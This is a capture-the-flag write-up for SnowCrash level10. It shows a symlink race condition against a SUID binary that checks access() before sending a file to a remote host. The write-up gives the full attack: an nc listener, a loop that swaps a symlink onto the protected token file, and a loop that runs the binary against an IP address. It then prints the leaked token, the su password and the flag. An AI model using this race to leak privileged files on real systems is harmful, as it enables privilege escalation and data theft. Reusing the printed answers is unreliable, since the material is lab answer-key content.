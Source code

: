 # Level 10 - Race Condition Exploit

This level demonstrates a **race condition** vulnerability via symbolic links and poor file permission handling.

---

## Step 1: Inspect the Binary

```bash
ls -la
...
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

level10 is SUID and runs with flag10's privileges.
There is a token file only accessible to flag10.

Step 2: Test Program Behavior

```bash
./level10
./level10 file host
sends file to host if you have access to it
```

The program requires a file and a host as arguments.
Step 3: Decompile the Binary

Decompiled code shows:

int32_t main(int argc, char\** argv)
{
// Check if arguments are provided
if (argc <= 2)
{
printf("%s file host\n\tsends file to host if you have access to it\n", *argv);
exit(1);
}

    // Check access to the file
    if (access(argv[1], 4))
    {
        printf("You don't have access to %s\n", argv[1]);
        exit(1);
    }

    // Connect to the host and send the file
    // ...

}

The program checks access to the file using access() and then connects to a server at port 6969 to send the file.
Step 4: Exploit the Race Condition

We create three terminals:

Server Terminal: Start a server using nc on port 6969.

```bash
nc -lk 6969
```

Symbolic Link Loop Terminal: Create a loop that will create and remove a symbolic link to a file that we own.

```bash
while true; do ln -fs /tmp/empty /tmp/link2; ln -fs /home/user/level10/token /tmp/link2; done
```

Binary Execution Terminal: Execute the binary in a loop.

```bash
    while true; do ./level10 /tmp/link2 192.168.1.78; done
```

Step 5: Result

On the server terminal, we get:

```bash
._( )_.
._( )_.
._( )_.
woupa2yuojeeaaed06riuj63c
._( )_.
._( )_.
._( )_.
._( )_.
._( )_.
woupa2yuojeeaaed06riuj63c
._( )_.
._( )_.
```

We can now use the token to get the flag:

```bash
su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~\$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

✅ Summary

    Race Condition: The symbolic link allowed us to exploit the race condition between the access() check and the actual file access.
    The level10 binary failed to securely handle the race condition.
    This exposed a restricted file by circumventing the access validation.
